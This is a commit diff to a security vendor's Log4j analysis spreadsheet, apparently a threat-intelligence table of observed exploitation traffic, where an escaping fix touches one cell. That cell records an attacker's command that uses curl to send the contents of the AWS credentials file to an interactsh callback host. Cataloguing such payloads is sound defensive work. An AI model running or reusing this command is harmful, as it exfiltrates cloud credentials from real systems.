

Before and after one commit to secureworks/log4j-analysis, a TSV file: taegis-log4j-ip-analysis.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Fix escaping

```diff
--- a/taegis-log4j-ip-analysis.tsv
+++ b/taegis-log4j-ip-analysis.tsv
-C35: curl -d "$(cat ~/.aws/credentials)" https://<redacted token>.interactsh[.]com
+C35: curl -d \"$(cat ~/.aws/credentials)\" https://<redacted token>.interactsh[.]com
```
